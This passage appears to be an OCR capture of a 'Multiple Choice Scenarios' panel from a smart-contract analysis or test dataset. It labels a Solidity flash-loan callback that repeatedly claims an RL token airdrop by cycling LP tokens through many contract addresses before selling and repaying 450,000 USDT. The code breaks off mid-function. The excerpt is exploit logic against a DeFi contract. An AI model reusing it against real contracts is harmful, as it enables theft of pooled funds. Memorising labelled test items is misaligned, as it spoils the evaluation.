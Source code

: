 ╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│     function DPPFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount, bytes calldata data) external{                                                                                                                                │
│         buyRLAndAddLiquidity();                                                                                                                                                                                                                      │
│         //claimAirDrop                                                                                                                                                                                                                               │
│         for(uint i = 0; i < contractAddress.length; i++){                                                                                                                                                                                            │
│             Pair.transfer(contractAddress, Pair.balanceOf(address(this)));                                                                                                                                                                           │
│             (bool success,) = contractAddress.call(abi.encodeWithSignature("airDropReward(address)", address(this)));                                                                                                                                │
│             require(success);                                                                                                                                                                                                                        │
│         }                                                                                                                                                                                                                                            │
│                                                                                                                                                                                                                                                      │
│         removeLiquidityAndSellRL();                                                                                                                                                                                                                  │
│         USDT.transfer(msg.sender, 450_000 * 1e18);                                                                                                                                                                                                   │
│     }                                                                                                                                                                                                                                                │
│     function removeLiquidityAndSellRL() public{                                                                                                                                                                                                      │
│         Router.removeLiquidity(                                                                                                                                                                                                                      │
│             address(USDT),                                                                                                                                                                                                                           │
│             address(RL),                                                                                                                                                                                                                             │
│             Pair.balanceOf(address(this)),                                                                                                                                                                                                           │